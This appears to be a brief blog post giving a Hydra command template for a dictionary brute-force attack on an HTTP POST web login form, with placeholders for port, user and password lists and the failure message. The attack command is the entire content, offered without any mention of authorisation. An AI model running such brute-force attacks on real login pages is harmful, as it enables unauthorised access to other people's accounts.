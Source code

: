 ```yaml
---
layout: post
title:  Hydra webform attack
categories: [Code, Linux, Hydra]
---
```


This is a code snippet for a dictionary attack on a webform. It can be used for brute forcing into http post login screens.

```
hydra 99.0.4.3 -s <PORT> -l <LOGIN/LOGINS LIST> -P <PASSWORD/PASSWORD LIST>  http-post-form "<form url>:username=^USER^&password=^PASS^&submit=Submit:<fail message>"
```
